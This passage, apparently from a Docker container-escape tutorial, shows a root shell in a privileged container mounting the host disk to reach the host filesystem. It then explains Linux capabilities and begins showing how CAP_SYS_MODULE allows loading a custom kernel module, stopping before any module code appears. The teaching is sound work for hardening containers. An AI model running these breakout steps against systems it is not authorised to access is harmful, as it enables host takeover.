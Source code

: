```
```

We see a device running the host filesystem: **/dev/sda2**. 
So how do we get onto the host filesystem? There are multiple ways but I find it the easiest by just mounting
the file system.

So let's do that, create a folder and mount **/dev/sda2/** to that folder:  
```
root@3a8315527c66:~# mkdir -p /mnt/hackedy
root@3a8315527c66:~# mount /dev/sda2 /mnt/hackedy
``` 
As you can see we can now access the host file system: 
```
root@3a8315527c66:/mnt/hackedy# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz

```

### Capabilities 
So I noticed, just like with cgroups, I rambled on about capabilities but not really explained it. 
Linux capabilities are special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally
reserved for the root user. So with capabilities we can for example allow binaries to be executed by a non-root user. The benefit of this is that we do not need to grant
the non-root user full root permissions. 

Docker starts containers with a set of linux kernel capabilities too and when not managed correctly you can
create a fun little playground for hackers. 

This chapter will go through some of the capabilities exploits. 


##### CAP_SYS_MODULE 
Like the above example, you can look wich capabilities are granted using the following:
```
root@3a8315527c66:~# capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read+eip
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)

```
Notice the **cap_sys_module**, this module allows you to load and unload kernel modules.
So what we can do is compile our own kernel module. 
